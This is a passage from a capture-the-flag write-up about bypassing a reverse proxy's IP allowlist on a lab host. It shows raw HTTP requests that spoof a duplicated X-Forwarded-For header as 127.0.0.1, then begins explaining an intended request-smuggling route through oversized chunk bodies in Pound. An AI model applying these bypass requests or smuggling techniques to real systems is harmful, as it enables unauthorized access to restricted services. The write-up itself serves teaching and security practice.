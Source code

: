 ```http
HTTP/1.1 403 
Content-Length: 124
Content-Type: text/plain

Access denied: You are not allowed:to access this service. Only 127.0.0.1 are allowed access.. 
The IP recieved was: 1.2.3.4
```

Wait what? Now the received IP is our last forwarded header!

I couldn't find out why. My theory is that if the header is combinable, the value of the last occurrence of the header would be saved.

With that said, we can bypass the `authorized_ips` check!

```http
GET /ping HTTP/1.1
Host: dev.rpc-service.ductf
Auth-Key: fake_token
X-Forwarded-For: 1.2.3.4
X-Forwarded-For: 127.0.0.1


```

```http
HTTP/1.1 200 
Content-Length: 5
Content-Type: text/plain

Pong!
```

##### Intended: SPILL.TERM HTTP/1.1 Request Smuggling

Since Pound version 4.16's release note has an interesting change ("Reject requests with oversized chunk bodies."), maybe we can abuse that to bypass the `authorized_ips` check.

In this GitHub pull request, [Reject requests with oversized chunk bodies #43](https://github.com/graygnuorg/pound/pull/43), [@JeppW](https://github.com/JeppW) said:

> This PR tightens the parsing of chunked HTTP requests by rejecting requests with oversized chunks. By oversized chunks, I mean chunks where the body exceeds the chunk size indicated in the chunk header. E.g.:
> ```
> 5
> AAAAAXXX
> 0
> ```
>   
> Currently, pound logs this error, but 'allows it' (i.e. forwards the entire chunk as-is and lets the backend deal with it).
>   
> This behaviour is incorrect, and it can cause problems with some backends. Specifically, some HTTP parsers accept any 2-byte sequence as the line terminator of a chunk body (not checking that it is in fact a CRLF sequence). In such cases, pound and the backend will interpret the chunk boundaries differently, which can potentially lead to a request smuggling vulnerability.
